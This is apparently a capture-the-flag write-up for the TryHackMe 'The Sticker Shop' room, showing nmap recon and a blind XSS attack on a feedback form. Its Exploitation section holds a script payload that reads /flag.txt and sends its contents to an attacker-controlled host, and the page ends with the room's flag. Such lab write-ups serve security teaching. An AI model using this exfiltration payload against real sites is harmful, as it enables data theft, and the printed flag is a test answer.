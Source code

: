 # The Sticker Shop Write-up

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377390091" width="200" height="200">

## Recon 

### NMap

`nmap -sC -sV 10.10.225.208`

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
    |   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
    |_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
    8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
    |_http-title: Cat Sticker Shop
    |_http-server-header: Werkzeug/3.0.1 Python/3.8.10
   
Main page:

![image](https://github.com/user-attachments/assets/5bf7d47e-5961-4f0d-aa74-8a46616f41e8)

Feedback page:

![image](https://github.com/user-attachments/assets/df705f0c-d600-4d20-a7d3-cf840ce07851)

![image](https://github.com/user-attachments/assets/578220e9-ebec-47e1-b71c-f66cfa5ebad1)

`/flag.txt` page:

![image](https://github.com/user-attachments/assets/cea7bd48-2e42-4ac2-bb23-fa0f91da8e38)

## Exploitation

### Blind XSS

Payload:

    '"><script>
      fetch('http://127.0.0.1:8080/flag.txt')
        .then(response => response.text())
        .then(data => {
          fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
        });
    </script>

Open local server and use XSS payload

![image](https://github.com/user-attachments/assets/162820d2-6add-49e6-b546-2f9738ebb0e3)

![image](https://github.com/user-attachments/assets/69d38d01-7b08-421b-98ea-d2f4f7434f67)

FLAG:

    THM{83789a69074f636f64a38879cfcabe8b62305ee6}
